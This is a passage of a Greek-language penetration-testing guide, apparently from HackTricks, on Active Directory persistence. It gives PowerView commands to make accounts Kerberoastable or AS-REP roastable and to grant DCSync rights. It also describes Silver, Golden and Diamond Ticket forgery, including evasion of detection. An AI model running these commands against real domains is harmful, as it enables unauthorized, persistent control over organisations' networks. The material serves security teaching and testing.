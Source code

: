[**Περισσότερες πληροφορίες σχετικά με το πώς να κλέψετε το NTDS.dit μπορείτε να βρείτε εδώ**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/active-directory-methodology/broken-reference/README.md)

### Privesc ως Επιμονή

Ορισμένες από τις τεχνικές που συζητήθηκαν προηγουμένως μπορούν να χρησιμοποιηθούν για επιμονή.\
Για παράδειγμα, θα μπορούσατε να:

*   Κάνετε τους χρήστες ευάλωτους σε [**Kerberoast**](kerberoast.md)

```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}r
```
*   Κάνετε τους χρήστες ευάλωτους σε [**ASREPRoast**](asreproast.md)

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```
*   Χορηγήσετε [**DCSync**](./#dcsync) δικαιώματα σε έναν χρήστη

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync
```

### Silver Ticket

Η **επίθεση Silver Ticket** δημιουργεί ένα **νόμιμο εισιτήριο Ticket Granting Service (TGS)** για μια συγκεκριμένη υπηρεσία χρησιμοποιώντας το **NTLM hash** (για παράδειγμα, το **hash του λογαριασμού PC**). Αυτή η μέθοδος χρησιμοποιείται για **πρόσβαση στα δικαιώματα υπηρεσίας**.

{% content-ref url="silver-ticket.md" %}
[silver-ticket.md](silver-ticket.md)
{% endcontent-ref %}

### Golden Ticket

Μια **επίθεση Golden Ticket** περιλαμβάνει έναν επιτιθέμενο που αποκτά πρόσβαση στο **NTLM hash του λογαριασμού krbtgt** σε ένα περιβάλλον Active Directory (AD). Αυτός ο λογαριασμός είναι ειδικός επειδή χρησιμοποιείται για να υπογράψει όλα τα **Ticket Granting Tickets (TGTs)**, τα οποία είναι απαραίτητα για την αυθεντικοποίηση εντός του δικτύου AD.

Μόλις ο επιτιθέμενος αποκτήσει αυτό το hash, μπορεί να δημιουργήσει **TGTs** για οποιονδήποτε λογαριασμό επιλέξει (επίθεση Silver ticket).

{% content-ref url="golden-ticket.md" %}
[golden-ticket.md](golden-ticket.md)
{% endcontent-ref %}

### Diamond Ticket

Αυτά είναι όπως τα golden tickets που έχουν κατασκευαστεί με τρόπο που **παρακάμπτει τους κοινούς μηχανισμούς ανίχνευσης golden tickets.**

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}
